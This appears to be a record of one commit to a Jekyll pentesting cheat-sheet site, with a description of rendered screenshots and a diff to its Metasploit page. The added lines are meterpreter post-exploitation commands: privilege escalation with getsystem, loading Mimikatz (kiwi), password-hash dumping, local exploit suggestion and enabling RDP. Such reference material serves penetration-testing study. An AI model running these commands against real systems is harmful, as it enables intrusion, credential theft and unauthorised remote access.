

Before and after one commit to hideckies/hackfruit, a Jekyll site: the page built from _fruits/Metasploit.md, in a window 1280 px wide and 1400 px high, scrolled down 1585 px. Shown: the whole window, without its empty margins (224-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2218 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
edit metasploit page

````diff
--- a/_fruits/Metasploit.md
+++ b/_fruits/Metasploit.md
@@ -6,6 +6,15 @@ alts: [ExploitDB, Gobuster, Searchsploit]
 website:
 ---
 
+## Msfdb
+
+```sh
+# Initialize metasploit database
+msfdb init
+```
+
+<br />
+
 ## Msfconsole
 
 ```sh
@@ -13,6 +22,9 @@ website:
 msfconsole
 
 ---
+
+# check database status
+msf6 > db_status
 
 # Search exploits from keywords
 msf6 > search ms17-010
@@ -61,11 +73,33 @@ msf6 exploit(post/multi/manage/shell_to_meterpreter) > sessions 2
 # Display the target machine's info
 meterpreter > sysinfo
 
+# Get user who running in the server
+meterpreter > getuid
+
+# Attempt to elevate your privileges
+meterpreter > getsystem
+
+# Get privileges of current user
+meterpreter > getprivs
+
 # Move to the target shell
 meterpreter > shell
 
 # Dump all passwords on the machine
 meterpreter > hashdump
+
+# Load a new version of Mimikatz
+meterpreter > load kiwi
+
+# Check if the target is a virtual machine
+meterpreter > run post/windows/gather/checkvm
+
+# Collect local exploits
+meterpreter > run post/multi/recon/local_exploit_suggester
+
+# Enable RDP
+meterpreter > run post/windows/manage/enable_rdp
+
 ```
 
 <br />
````
Also changed, not shown: _fruits/Rdesktop.md (added, +11 -0 lines).
